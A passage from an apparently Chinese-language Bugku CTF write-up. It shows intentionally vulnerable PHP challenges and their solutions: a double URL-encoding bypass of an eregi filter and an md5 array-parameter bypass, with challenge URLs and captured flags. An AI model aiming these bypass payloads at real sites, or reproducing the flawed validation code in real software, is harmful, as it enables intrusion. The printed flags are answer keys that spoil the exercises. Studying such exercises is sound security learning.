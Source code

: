 		<?php
		if(eregi("hackerDJ",$_GET[id])) {
		echo("
		
		not allowed!
		");
		exit();
		}
		$_GET[id] = urldecode($_GET[id]);
		if($_GET[id] == "hackerDJ")
		{
		echo "
		
		Access granted!
		";
		echo "
		
		flag
		";
		}
		?>

	解答：
	
		url二次编码绕过
		http://120.24.86.145:9009/10.php?id=%2568ackerDJ
		flag{bugku__daimasj-1t2} 

4. md5()函数 50

		http://120.24.86.145:9009/18.php
		
		<?php
		error_reporting(0);
		$flag = 'flag{test}';
		if (isset($_GET['username']) and isset($_GET['password'])) {
		if ($_GET['username'] == $_GET['password'])
		print 'Your password can not be your username.';
		else if (md5($_GET['username']) === md5($_GET['password']))
		die('Flag: '.$flag);
		else
		print 'Invalid password';
		}
		?>

	解答：

		md5函数特性，无法处理数组，返回false
		http://120.24.86.145:9009/18.php?username[]=1&password[]=2
		flag{bugk1u-ad8-3dsa-2}

5.数组返回NULL绕过 50

		http://120.24.86.145:9009/19.php
		
		<?php
		$flag = "flag";
		